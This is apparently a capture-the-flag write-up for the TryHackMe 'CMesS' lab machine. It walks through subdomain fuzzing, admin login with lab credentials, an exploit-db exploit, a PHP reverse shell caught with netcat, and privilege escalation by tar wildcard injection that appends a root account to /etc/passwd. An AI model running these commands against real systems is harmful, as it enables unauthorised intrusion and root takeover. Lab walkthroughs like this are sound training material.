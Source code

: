 # CMesS

**Room Link**: [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 cmess.thm
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://cmess.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



Mostly junk

<figure><img src="../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (558).png" alt=""><figcaption></figcaption></figure>



## Fuzzing Domains

Fuzzed with a long subdomain list then filtered to reduce the amount of results. Only one stands out, dev.&#x20;

**Kali**

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://cmess.thm/' -H "Host: FUZZ.cmess.thm" > results.txt

grep -v '290 W' results.txt
```

<figure><img src="../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

I added dev.cmess.thm to my host file and found this page

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We were able to login to the admin portal with these credentials

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
Username: andre@cmess.thm
Password: KPFTN_f2yxe%
```

## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/51569](https://www.exploit-db.com/raw/51569)



<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The shell they use is bad so I upload a new one to get a reverse shell instead

**Shell Link:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)



<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We find andre's password in a backup file

**Victim**

```
cd /opt
ls -lah
cat .password.bak 
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>





## TCP/80 - HTTP

**Kali**

```
ssh andre@$VICTIM
Password: UQfsdCB7aAP6
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Privlege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/andre/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>





